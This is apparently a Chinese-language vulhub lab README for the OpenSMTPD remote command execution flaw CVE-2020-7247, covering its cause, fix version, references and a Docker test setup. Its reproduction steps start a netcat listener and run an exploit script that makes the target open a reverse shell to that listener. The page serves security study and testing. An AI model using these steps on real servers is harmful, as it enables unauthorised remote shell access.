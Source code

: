 # OpenSMTPD 远程命令执行漏洞 (CVE-2020-7247)

OpenSMTPD 是面向 unix 操作系统 (BSD, MacOS, GNU/Linux) 的一个 smtp 服务程序，遵循 RFC 5321 SMTP 协议，OpenSMTPD 最初是为 OpenBSD 操作系统开发的，是 OpenBSD 项目的一部分，由于其开源的特性，进而分发到了其他 unix 平台。根据 ISC 许可，该软件可免费供所有人使用和重用。

`CVE-2020-7247` 是 OpenSMTPD 在实现 RFC 5321 的过程中对 发件人/收件人 校验不严而导致的。

2020年01月29日， OpenSMTPD 官方在 github 代码仓库提交了针对 `CVE-2020-7247` 漏洞的修复，修复后对应版本为`OpenSMTPD 6.6.2p1 `。

参考链接：

- https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt
- https://www.exploit-db.com/exploits/47984
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7247
- https://www.anquanke.com/post/id/197689
- （环境源码）https://github.com/OpenSMTPD/OpenSMTPD/releases/tag/6.6.1p1

## 环境搭建

执行如下命令，启动OpenSMTPD服务

```
docker-compose up -d
```

执行完成后，使用`nc <Target_IP> 8825 -v` 后应看到如下回显：（`44dadcc5a6eb`为容器编号）

```
220 44dadcc5a6eb ESMTP OpenSMTPD
```

## 漏洞复现

因为该漏洞利用并没有回显，因此采用反弹shell方式进行复现展示。

1. 在本地启动nc监听：`nc -lp <Listen_Port> `
2. 使用python3执行脚本：`python3 exp.py <Target_IP> 8886 <Listen_IP> <Listen_Port>`

效果如下：

![image](https://github.com/CatAndCoffee/vulhub/blob/CVE-2020-7247/OpenSMTPD/CVE-2020-7247/image-20210415233036042.png)
